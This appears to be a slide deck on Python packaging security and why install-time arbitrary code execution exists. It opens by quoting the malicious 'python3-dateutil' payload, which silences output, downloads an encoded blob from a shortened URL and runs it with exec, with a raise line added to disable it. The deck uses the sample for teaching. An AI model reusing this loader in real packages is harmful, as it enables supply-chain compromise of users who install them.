 ## `python3-dateutil` payload

```python
raise Exception("Exception added to prevent people from running this accidentally")
import re,sys,os
_out,_err=sys.stdout,sys.stderr
sys.stdout,sys.stderr=open(os.devnull,'wb'),open(os.devnull,'wb')
try:
 try:from urllib2 import urlopen
 except:from urllib.request import urlopen 
 exec(zlib.decompress(base64.b16decode(re.sub(
  r'[^0-9abcdef]','',urlopen('http://bitly.com/25VZxUbmkr').read().decode('utf-8'),flags=re.MULTILINE
 )[4:-4].upper())))
except:pass
sys.stdout,sys.stderr=_out,_err
```

## Is this an isolated example?

> - 2 March 2021, PyPI nukes 3,653 malicious packages
> - Some packages were definitely downloaded, i.e. $\geq$ 10k downloads (`dppclient`) ;
> - PyPI rolled out mandatory 2FA for "critical" packages^[With some philosophical questions about the responsibility for maintainers to adhere to security constraints of an index.]

## Why arbitrary code execution in packaging is needed?

Installing packages is mostly declarative in general, e.g. Python dependencies are declared and `pip` uses this to perform the topological sort, and some version resolution.

But, what about:

> - System-level dependencies, e.g. `lxml`? Is it `pip` responsibility to ensure coordination with system package manager? What about people who do not have system package manager?
> - Variants of library interfaces, e.g. Intel MKL vs OpenBLAS in downstream numerical libraries such as SciPy or NumPy or CUDA in TensorFlow ?
> - Non-purely Python packages, e.g. hybrid projects which uses another language and Python — Rust/Python like `cryptography` ;

## Why arbitrary code execution in packaging is needed?

Slide is too long.

> - CPU-specific features, e.g. AVX512 accelerated procedures ;
> - Fine-tuning operations, e.g. preprocessing static data at install-time, fetching large data which is not published (ML binary models) ;
> - Tracking versions based on SCM, e.g. version should show the most relevant data — Git SHA1 hashes, version numbers, etc.

## This is possible because there is no alternative
